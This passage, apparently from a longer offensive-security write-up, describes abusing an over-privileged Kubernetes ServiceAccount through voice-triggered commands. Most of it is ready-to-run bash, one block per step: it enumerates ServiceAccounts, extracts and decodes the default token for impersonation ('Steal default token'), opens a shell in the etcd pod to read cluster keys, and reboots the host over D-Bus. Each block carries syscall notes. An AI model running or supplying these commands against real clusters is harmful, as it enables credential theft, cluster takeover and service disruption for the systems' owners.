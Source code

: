 When ServiceAccounts have broad permissions, a voice trigger can abuse `kubectl`.

#### 8.4.1 ServiceAccount Enumeration

```bash
# Voice Phrase: “List serviceaccounts”
bash -c "kubectl get sa -n voice-uplink -o jsonpath='{.items[*].metadata.name}'"
```

* **Underlying**

  * `execve("kubectl",…)` → REST GET `/api/v1/namespaces/voice-uplink/serviceaccounts`
  * TLS via Linkerd sidecar → `SSL_read()`, `SSL_write()`

#### 8.4.2 Token Extraction & Impersonation

```bash
# Voice Phrase: “Steal default token”
bash -c "kubectl get secret $(kubectl get sa default -o jsonpath='{.secrets[0].name}') -o jsonpath='{.data.token}' | base64 -d > /tmp/token && \
kubectl --token=$(cat /tmp/token) auth can-i --list > /tmp/perm"
```

* **Linux Primitives**

  * Nested `execve()`, `read()`, `write()`
  * `base64 -d` → C utility reading STDIN, writing STDOUT

#### 8.4.3 Unrestricted Exec into Privileged Pod

```bash
# Voice Phrase: “Exec into etcd”
bash -c "kubectl exec -n kube-system etcd-0 -- /bin/sh"
```

* **Effect**

  * Direct shell in etcd pod → read `/var/lib/etcd/member/snap/db` → cluster keys

---

### 8.5 Chaining Linux Capabilities & D-Bus Calls

#### 8.5.1 D-Bus via `busctl`

```bash
# Voice Phrase: “Reboot via D-Bus”
bash -c "busctl call org.freedesktop.login1 /org/freedesktop/login1 org.freedesktop.login1.Manager Reboot b true"
```

* **Syscalls**

  * `socket(AF_UNIX, SOCK_STREAM)` → connect to `/run/dbus/system_bus_socket`
  * `write()`/`read()` DBus frames
* **Privilege**

  * Polkit may authorize based on group or session
